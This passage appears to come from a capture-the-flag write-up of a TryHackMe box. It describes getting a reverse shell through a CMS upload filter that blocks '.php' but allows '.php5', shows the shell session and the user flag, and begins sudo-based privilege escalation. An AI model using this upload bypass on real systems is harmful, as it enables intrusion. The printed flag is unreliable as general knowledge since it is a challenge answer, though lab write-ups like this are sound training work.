 Here we can see the credentials for the login portal, manager:Password123. Now after logging into the portal, I came across a another exploit which allows unrestricted file upload. This could allow us to upload a reverse PHP shell. However, It does not allow .php files directly, however, .php5 files are allowed. So, I uploaded a shell.php5 onto the CMS and got a reverse shell. 

```diff
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
cdrom
dev
etc
home
initrd.img
initrd.img.old
lib
lost+found
media
mnt
opt
proc
root
run
sbin
snap                                                                                                                                                           
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
$ pwd
/
$ cd /home/itguy
$cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}

```

Now, for privelege escalation.
```diff
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```
